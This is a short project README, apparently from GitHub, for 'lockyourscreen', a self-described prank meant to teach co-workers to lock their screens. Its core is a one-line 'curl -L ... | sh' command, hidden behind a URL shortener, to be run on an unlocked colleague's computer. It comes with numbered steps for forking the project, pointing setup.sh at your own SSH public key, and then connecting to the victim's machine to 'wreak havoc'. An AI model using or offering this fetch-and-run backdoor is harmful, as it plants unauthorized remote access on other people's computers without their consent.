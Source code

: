 lockyourscreen
==============

This is used to teach co-workers why they should always lock their screen

Run this for pwnage:

```
  curl -L http://tinyurl.com/davidhassel | sh
```



If you want to use this to teach infidels too lock their screen you have to make a fork.

Steps to teaching infidels

1. Fork this project

2. Change setup.sh to curl https://raw.githubusercontent.com/#YOURGITHUBACCOUNT#/lockyourscreen/master/id_lockyourscreen.pub

3. create a tinyurl for https://raw.githubusercontent.com/#YOURGITHUBACCOUNT#/lockyourscreen/master/setup.sh

4. Run ```curl -L http://tinyurl.com/#YOURTINYURL# | sh```

5. Connect to their computer when they get back from whatever they where doing and wreak havoc!

